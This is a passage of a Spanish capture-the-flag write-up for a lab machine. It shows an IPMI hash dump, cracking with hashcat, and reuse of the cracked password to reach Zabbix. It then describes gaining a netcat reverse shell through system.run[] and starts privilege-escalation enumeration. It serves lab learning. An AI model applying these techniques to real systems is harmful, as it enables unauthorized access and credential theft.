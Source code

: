 **Hash encontrado:**
```
[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb
```

### Alternativa con ipmiPwner

```bash
sudo python3 ipmipwner.py --host 10.10.11.124
```

**Hash obtenido:**
```
$rakp$a4a3a2a0820a0000f793de846396a33033290affdcb188a1b6db9aaa178ce75290b2fd6cfd76bac7a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$ac4f0b33225a3d1d4c5b7e423c094ef72bc4997d
```

### Cracking del hash

```bash
hashcat ipmi.hash /usr/share/wordlists/rockyou.txt --user
```

**Contraseña encontrada:** `ilovepumkinpie1`

## Acceso a Zabbix

La contraseña no funciona para SSH, pero `Administrator/ilovepumkinpie1` funciona para iniciar sesión en Zabbix (el nombre de usuario distingue entre mayúsculas y minúsculas).

![Panel de Zabbix](/secciones/posts/imagenes/shibboleth/zabbix1.png)

## Ejecución de comandos en Zabbix

Una vez en Zabbix, podemos hacer que el sistema ejecute comandos arbitrarios a través de la clave `system.run[]`. 

Referencia: https://sbcode.net/zabbix/agent-execute-python/

![Configuración de comandos](/secciones/posts/imagenes/shibboleth/zabbix2.png)

Después de crear el objeto malicioso y configurar un listener con netcat, recibimos una reverse shell.

## Escalación de privilegios

### Enumeración del sistema

Al enumerar el sistema, encontramos en `/etc/passwd` que hay otro usuario: `ipmi-svc` que también tiene un shell bash. Podemos reutilizar la contraseña de esta cuenta para acceder fácilmente.

### Credenciales de base de datos
